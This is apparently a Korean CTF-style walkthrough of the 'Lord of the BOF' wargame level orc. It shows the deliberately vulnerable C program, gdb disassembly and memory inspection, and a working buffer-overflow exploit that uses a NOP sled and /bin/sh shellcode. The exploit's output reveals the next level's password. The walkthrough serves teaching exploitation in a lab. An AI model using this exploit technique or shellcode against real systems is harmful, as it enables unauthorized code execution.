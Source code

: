 # goblin -> orc

```C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

여기서 알 수 있는 3가지!
1. 환경변수 이용 불가 (왜냐, memset 함수로 환경 값을 가지고 있는 environ 변수를 0으로 초기화 하기 때문)   
2. 첫 번째 인자 48번째 데이터는 \bf   
3. 입력 시점부터 ret까지는 44byte

```
---Type <return> to continue, or q <return> to quit---
0x8048595 <main+149>:   je     0x80485b0 <main+176>
0x8048597 <main+151>:   push   $0x804863c
0x804859c <main+156>:   call   0x8048410 <printf>
0x80485a1 <main+161>:   add    $0x4,%esp
0x80485a4 <main+164>:   push   $0x0
0x80485a6 <main+166>:   call   0x8048420 <exit>
0x80485ab <main+171>:   add    $0x4,%esp
0x80485ae <main+174>:   mov    %esi,%esi
0x80485b0 <main+176>:   mov    0xc(%ebp),%eax
0x80485b3 <main+179>:   add    $0x4,%eax
0x80485b6 <main+182>:   mov    (%eax),%edx
0x80485b8 <main+184>:   push   %edx
0x80485b9 <main+185>:   lea    0xffffffd8(%ebp),%eax
0x80485bc <main+188>:   push   %eax
0x80485bd <main+189>:   call   0x8048440 <strcpy>
0x80485c2 <main+194>:   add    $0x8,%esp
0x80485c5 <main+197>:   lea    0xffffffd8(%ebp),%eax
0x80485c8 <main+200>:   push   %eax
0x80485c9 <main+201>:   push   $0x8048659
0x80485ce <main+206>:   call   0x8048410 <printf>
0x80485d3 <main+211>:   add    $0x8,%esp
0x80485d6 <main+214>:   leave
0x80485d7 <main+215>:   ret
```

strcpy()함수가 호출된 후인 main+197에 breakpoint를 걸었다.

```
(gdb) r $(python -c 'print("\xbf"*48+" "+"A"*125)')
Starting program: /home/goblin/orc1 $(python -c 'print("\xbf"*48+" "+"A"*125)')

Breakpoint 1, 0x80485c5 in main ()
```
arv[1][47]이 \xbf인지 확인하므로 arv[1]에 \xbf를 48byte만큼 채우고, 쉘 코드로 arv[2]를 사용한다.
그래서 NOP Sled 기법을 이용해 쉘코드 만큼 arv[2]에 채운다.
이후 arv[2]의 주소를 찾아보면 아래와 같다.

```
0xbffffbee:      "/home/goblin/orc1"
---Type <return> to continue, or q <return> to quit---
0xbffffc00:      '¿' <repeats 48 times>
0xbffffc31:      'A' <repeats 125 times>
0xbffffcaf:      ""
```
payload는 NOP(40)+SFP(4)+RET(4)+' '+SHELLCODE(125)

```
[goblin@localhost goblin]$ ./orc $(python -c 'print("\x90"*44+"\x31\xfc\xff\xbf"+" "+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
1üÿ¿
bash$ my-pass
euid = 504
cantata
```
